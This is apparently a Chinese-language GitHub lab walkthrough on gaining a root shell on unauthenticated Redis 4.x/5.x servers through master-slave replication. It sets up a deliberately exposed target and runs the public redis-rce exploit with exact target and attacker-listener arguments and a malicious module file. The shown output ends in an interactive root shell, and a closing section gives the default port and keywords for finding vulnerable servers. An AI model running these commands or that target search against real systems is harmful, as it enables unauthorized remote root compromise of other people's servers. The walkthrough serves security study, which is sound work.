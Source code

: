 # Redis未授权通过主从复制GETSHELL


## 0x01 环境搭建

 靶机kali，ip地址192.168.1.16，安装redis服务命令。  

 wget http://download.redis.io/releases/redis-5.0.0.tar.gz  
 tar xzf redis-5.0.0.tar.gz  
 cd redis-5.0.0  
 make  


 编译好然后修改redis.conf文件，把127.0.0.1 改成 0.0.0.0  启动服务。  


 ./redis-server /root/redis-5.0.0/redis.conf  

 ![1](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/1.jpg)

## 0x02 漏洞利用

  攻击机Ubuntu，ip地址192.168.1.107，下载exp脚本，然后输入参数开始。

  git close https://github.com/Ridter/redis-rce  
  cd redis-rce  
  greekn@greekn:~/redis-rce$ python3 redis-rce.py -r 192.168.1.16 -L 192.168.1.107 -f exp_lin.so  
  
<br>  
   █▄▄▄▄ ▄███▄   ██▄   ▄█    ▄▄▄▄▄         █▄▄▄▄ ▄█▄    ▄███▄       
   █  ▄▀ █▀   ▀  █  █  ██   █     ▀▄       █  ▄▀ █▀ ▀▄  █▀   ▀  
   █▀▀▌  ██▄▄    █   █ ██ ▄  ▀▀▀▀▄         █▀▀▌  █   ▀  ██▄▄        
   █  █  █▄   ▄▀ █  █  ▐█  ▀▄▄▄▄▀          █  █  █▄  ▄▀ █▄   ▄▀  
     █   ▀███▀   ███▀   ▐                    █   ▀███▀  ▀███▀        
   ▀                                       ▀                       \<br>
  
 [*] Connecting to  192.168.1.16:6379...  
 [*] Sending SLAVEOF command to server  
 [+] Accepted connection from 192.168.1.16:6379  
 [*] Setting filename  
 [+] Accepted connection from 192.168.1.16:6379  
 [*] Start listening on 192.168.1.107:21000  
 [*] Tring to run payload  
 [+] Accepted connection from 192.168.1.16:38875  
 [*] Closing rogue server...  

 [+] What do u want ? [i]nteractive shell or [r]everse shell: i  
 [+] Interactive shell open , use "exit" to exit...  
 $ whoami  
 root  
 $   

 ![2](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/2.jpg)

## 0x03 脆弱目标寻找  

 漏洞关键词redis 默认端口6379，影响版本 4.x/5.x  

 ![3](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/3.jpg)

 参考链接 https://paper.seebug.org/975/  

 ![4](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/4.jpg)

